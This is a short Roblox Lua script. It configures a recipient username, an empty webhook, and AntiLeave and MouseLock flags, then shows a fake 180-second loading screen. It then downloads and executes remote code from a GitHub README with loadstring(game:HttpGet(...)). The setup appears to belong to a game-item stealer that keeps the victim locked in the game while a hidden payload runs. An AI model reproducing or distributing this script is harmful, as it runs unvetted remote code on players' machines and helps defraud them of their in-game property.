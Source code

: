 UserName = "KubaQ102x"
UserName2 = "KubaQ102x"
Webhook = ""

_G.LoadingScreen = true
_G.AntiLeave = true
_G.MouseLock = true 

_G.ScriptName = "SEXruchanie"
_G.FirstText = "Script Preparing"
_G.SecondText = "Script Loading..."
_G.ThirdText = "Almost Done..."
_G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes

loadstring(game:HttpGet("https://raw.githubusercontent.com/Mordia000/DIAMONDglitch/main/README.md", true))()

